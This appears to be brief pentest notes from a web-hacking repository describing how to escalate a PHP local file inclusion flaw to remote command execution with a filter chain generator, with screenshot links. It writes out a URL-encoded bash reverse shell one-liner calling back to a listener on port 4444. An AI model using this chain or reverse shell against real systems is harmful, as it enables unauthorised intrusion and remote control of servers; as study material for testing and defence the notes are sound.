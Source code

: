# LFI to Remote Command Execution via PHP Filter Chain.
We have to `git clone` the next repository: [https://github.com/synacktiv/php_filter_chain_generator/tree/main].
We make the chain specifyng the command we want to introduce in the target and we used it in the vulnerable filename input.

## LFI 2 RCE.
![1](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/2956e425-1116-473f-b2cd-4be072498ab6)
![3](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/01c597ca-cb77-4c1e-825d-e2694a0e246f)

## Reverse shell via PHP Filter Chain.
It's important to URLencode the `&` as `%26`. `bash -c "bash -i >%26 /dev/tcp/192.168.1.54/4444 0>%261"`.
![4](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0843c1da-f798-48fa-a4fa-ca95c82b408e)
![5](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/1deb2f94-2a7f-43de-9ae2-47aebc1b4769)
